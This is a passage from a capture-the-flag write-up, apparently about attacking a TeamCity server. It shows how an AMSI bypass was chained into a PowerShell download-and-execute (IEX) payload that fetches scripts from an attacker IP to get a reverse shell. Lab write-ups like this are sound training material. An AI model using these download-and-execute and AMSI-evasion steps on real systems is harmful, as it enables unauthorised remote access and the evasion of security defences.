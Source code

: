 Uploading it and running gives me this:

<figure><img src="../../.gitbook/assets/image (2143).png" alt=""><figcaption></figcaption></figure>

Success! I tried to download and run Invoke-PowerShellTcp but it didn't work. Probably is some kind of firewall or security features present on the site. As such, we need to include another Powershell script to bypass it.

On my research, I found this super useful repository:

{% embed url="https://github.com/Karmaz95/evasion/blob/main/bamsi.txt" %}

Using their `bamsi.txt`, we can bypass the AMSI that is (probably) present on the server via unload `amsi.dll`.&#x20;

```
--- hello_world.ps1        2023-04-05 04:22:08.640184787 -0400
+++ hello_world.ps1        2023-04-05 04:21:40.020285109 -0400
@@ -0,0 +1,2 @@
+(New-Object System.Net.WebClient).DownloadString('http://10.10.16.4/hello.ps1') | IEX
+(New-Object System.Net.WebClient).DownloadString('http://10.10.16.4/shell.ps1') | IEX
```

Then just upload this file with a basic Powershell reverse shell, and it would work!

<figure><img src="../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

## User Access

I should note that this is a rather unstable shell...and it quits on you VERY frequently due to the operation timing out on TeamCity.&#x20;

### TeamCity Administrator Fail

Now that we have access as the service user, we don't have access to anything special. Reading more about administrators in TeamCity, I came across this:
